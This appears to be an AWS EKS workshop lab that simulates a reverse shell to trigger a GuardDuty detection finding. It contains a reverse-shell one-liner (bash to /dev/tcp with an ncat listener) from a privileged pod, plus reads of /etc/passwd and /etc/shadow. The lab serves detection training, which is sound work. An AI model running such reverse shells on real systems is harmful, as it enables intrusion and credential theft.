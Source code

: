 ```yaml
---
title: "Reverse Shell"
sidebar_position: 142
---
```


In this last lab exercise for Amazon GuardDuty findings, you'll simulate a reverse shell attack in your EKS Cluster environment.

This one is a little tricky and since we want to run it as a simulation in a controlled environment, it will require you to create another Cloud9 environment that will serve as the offensor instance. To do that, open your [CloudShell](https://console.aws.amazon.com/cloudshell/home), and run the following commands.

```bash
$ aws ec2 describe-subnets --query 'Subnets[0].SubnetId' --filters "Name=tag:Name,Values=*SubnetPrivate*" --output text
$ aws cloud9 create-environment-ec2 —name rshell —instance-type t2.micro —subnet-id $RSHELL_SUBNET
```

Open another tab in your browser and go to the [Amazon Cloud9 Console](https://console.aws.amazon.com/cloud9control/home). You should se another IDE environment with the nama `rshell`, click on the **Open** link next to the IDE environment name.

On the Terminal of the new environment, you'll need to get the IP Address of the Cloud9 instance, install and run the `ncat` tool to simulate an attack tentative.

```bash
$ curl http://169.254.169.254/latest/meta-data/local-ipv4
```

Note the IP Address on the output.

```bash
$ sudo yum install ncat -y
$ ncat -nvlp 6666
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Listening on :::6666
Ncat: Listening on 0.0.0.0:6666
```

This last command will start listening all connections on port 6666.

Now, go back to the `eks-workshop-ide` terminal, and run a new Pod that will emulate the compromised workload.

```bash
$ kubectl run -ti --rm --restart=Never --image=ubuntu --privileged rshell -- /bin/bash -c "bash -i >& /dev/tcp//6666 0>&1"
If you don't see a command prompt, try pressing enter.
``` 

If you go back to the `rshell` IDE, you will be able to see that a new connection from offensor instance to the Pod, and you are able to run commands to the newly created Pod inside your Amazon EKS Cluster. Try a few privileged commands like below.

```bash
Ncat: Connection from 10.42.129.208.
Ncat: Connection from 10.42.129.208:39692.
root@rshell:/# ls /etc
root@rshell:/# cat /etc/passwd
root@rshell:/# cat /etc/shadow
root@rshell:/# touch /etc/attacker
touch /etc/attacker
root@rshell:/# ls /etc/attacker
ls /etc/attacker
/etc/attacker
root@rshell:/# 
```

Notice that the terminal where you started the Pod is completely frozen, and you are not able to run commands. To end the session, hit `CTRL+C` or `CMD+C` on the `rshell` IDE. The Pod on the `eks-workshop-ide` will be terminated and you will be able to take control again.


If you open the [GuardDuty Findings console](https://console.aws.amazon.com/guardduty/home#/findings), you will see the `Execution:Runtime/ReverseShell` finding.

![](assets/reverse-shell.png)


To clean up, delete the `rshell` Cloud9 IDE environment, on your [CloudShell](https://console.aws.amazon.com/cloudshell/home).

```bash
aws cloudformation list-stacks --stack-status-filter CREATE_COMPLETE --query 'StackSummaries[].StackName' | awk -F , '/rshell/ {print $1}' | xargs aws cloudformation delete-stack --stack-name
```